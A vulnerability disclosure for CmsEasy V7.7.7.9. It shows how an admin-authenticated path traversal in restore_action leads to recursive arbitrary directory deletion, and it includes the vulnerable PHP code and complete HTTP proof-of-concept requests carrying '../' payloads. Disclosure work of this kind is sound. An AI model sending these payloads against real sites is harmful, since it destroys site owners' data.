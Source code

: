 # CmsEasy has a path traversal vulnerability.



**Note: This vulnerability requires backend access.**



# Vendor Information



**Developer:** 四平市九州易通科技有限公司 ( Siping Jiuzhou Yitong Technology Co., Ltd. )

**Product Information:** CmsEasy V7.7.7.9 (20240105)

**Official Website:** https://www.cmseasy.cn/

**Product Source Code Download:** https://ftp.cmseasy.cn/CmsEasy7.x/CmsEasy_7.7.7_UTF-8_20240105.zip



# Introduce



**Note: This reproduction requires logging into the admin panel first.**

CmsEasy has a directory traversal vulnerability in `lib/admin/database_admin.php` (function: `restore_action`) that allows arbitrary path deletion. Attackers can exploit this vulnerability to traverse directories and delete arbitrary path.



# Trigger Point

**Note: This vulnerability requires backend access.**

The vulnerability is located in the `lib/admin/database_admin.php` file, specifically in the `restore_action` function.

**Note:** In the project, `front::post` is equivalent to `$_POST`.

**Objective:** Pass a crafted `payload` to execute `front::remove($dir.'/'.$d);`.

```php
function restore_action() {
        chkpw('func_data_restore');
        $dir=ROOT.'/data/backup-data/';
        if(front::post('submit') &&is_array(front::post('select'))) {
            foreach(front::post('select') as $d) {
                front::remove($dir.'/'.$d);   // -------------执行点--------
            }
            front::flash(lang_admin('success').lang_admin('delete').count(front::post('select')).lang_admin('individual').lang_admin('archives').'！');
        }
        $dirs=front::scan($dir);
        $db_dirs=array();
        foreach($dirs as $dir) {
            if(!preg_match('/\./',$dir) &&!preg_match('/hotsearch/',$dir)) $db_dirs[]=$dir;
        }
        $this->view->db_dirs=$db_dirs;
    }
```



# Vulnerability Analysis

**Note: This vulnerability requires backend access.**

It can be observed that the `restore_action` function directly concatenates inputs without any filtering, allowing for directory traversal.

Next, let's examine the implementation of the `remove` function.

```php
static function remove($dirname)
    {
        if (is_dir($dirname)) {
            $dir = new RecursiveDirectoryIterator($dirname);
            foreach ($dir as $k => $v) {
                if (!$dir->isDot()) {
                    if ($v->isDir()) {
                        self::remove($v->getPathname());
                    } else {
                        unlink($v->getPathname());
                    }
                }
            }
            unset($dir);
            rmdir($dirname);
            return true;
        }
        return false;
    }
```

**Function: Recursively deletes the specified directory and all its contents (including subdirectories and files).**



## Request Construction



Due to partial source code obfuscation, testing has revealed the following:

**Request Analysis:**

```http
http://127.0.0.1:5678/index.php?case=database&act=backAll&admin_dir=admin&site=default
```

The `case` parameter corresponds to the business logic file located in the `lib/admin` directory (`xxxx_admin.php`). (In this example, it is `database_admin.php`.)

The `act` parameter corresponds to the `xxxx_action` function within the file specified by `case`. (In this example, it is the `backAll_action()` method.)

The `admin_dir` parameter points to the backend directory. (This vulnerability requires backend access.)

The `site` parameter is the default parameter when not explicitly configured.



Therefore, based on this, we construct the request: `{xxxx}` in the POST data represents the trigger point.

The following request targets the `restore_action` function in `database_admin.php`.

```http
http://127.0.0.1:5678/index.php?case=database&act=restore&admin_dir=admin&site=default

POST:
submit=1&select[]={xxxx}
```



## **POC Construction and Verification**



Create a directory `11` at the same level as `data/backup-data` (which may include subdirectories) as an example to avoid directly damaging the website environment.

![image-20250129225807278](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250129225807278.png)

**Constructing the Payload**

```http
POST /index.php?case=database&act=restore&admin_dir=admin&site=default HTTP/1.1
Host: 192.168.216.1:5678
Content-Length: 29
Cache-Control: max-age=0
Origin: http://192.168.216.1:5678
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.216.1:5678/index.php?case=admin&act=login&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=l3roi1git2t3i2ma7p6jv86ie6; loginfalse=0; login_username=admin; login_password=aYUHEbyItYBTBUSfIYvkyMB79nyjAlRP%253DUPk1YvRdYx%253DL2ab18391e6e61e99aff8e10d05e4ad02
Connection: keep-alive

submit=1&select[]=../11
```



**The response template not existing is a normal behavior (this is expected).**

![image-20250129225913985](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250129225913985.png)



**Check the `11` directory and confirm that it has been successfully deleted.**

![image-20250129225947966](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250129225947966.png)

**Continue the verification by creating a subdirectory `11` under the website root directory as an example (it may include substructures) to test recursive deletion.**

![image-20250129230020319](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250129230020319.png)

**Constructing the Payload**

```http
POST /index.php?case=database&act=restore&admin_dir=admin&site=default HTTP/1.1
Host: 192.168.216.1:5678
Content-Length: 26
Cache-Control: max-age=0
Origin: http://192.168.216.1:5678
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.216.1:5678/index.php?case=admin&act=login&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=l3roi1git2t3i2ma7p6jv86ie6; loginfalse=0; login_username=admin; login_password=aYUHEbyItYBTBUSfIYvkyMB79nyjAlRP%253DUPk1YvRdYx%253DL2ab18391e6e61e99aff8e10d05e4ad02
Connection: keep-alive

submit=1&select[]=../../11
```

**Check and confirm that the `11` directory has been successfully deleted.**

![image-20250129230122043](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250129230122043.png)

**Vulnerability successfully verified.**

